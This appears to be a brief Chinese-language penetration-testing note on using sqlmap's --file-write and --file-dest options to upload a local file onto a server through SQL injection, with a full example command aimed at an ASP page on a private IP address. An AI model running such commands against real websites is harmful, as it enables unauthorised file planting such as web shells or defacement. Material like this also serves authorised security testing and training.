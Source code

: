 上传自己的文件

在sqlmap目录下新建目录（mst）
在目录（mst）下创建自己想要上传文件

# 本地写入

	--file-write "./mst/mst.txt"  本地文件的路径
	--file-dest "d:/www/1.html"    目标文件路径

	sqlmap -u http://192.168.1.3:8008/onews.asp?id=45 --file-write "./mst/mst.txt" --file-dest "d:/222/1.html"

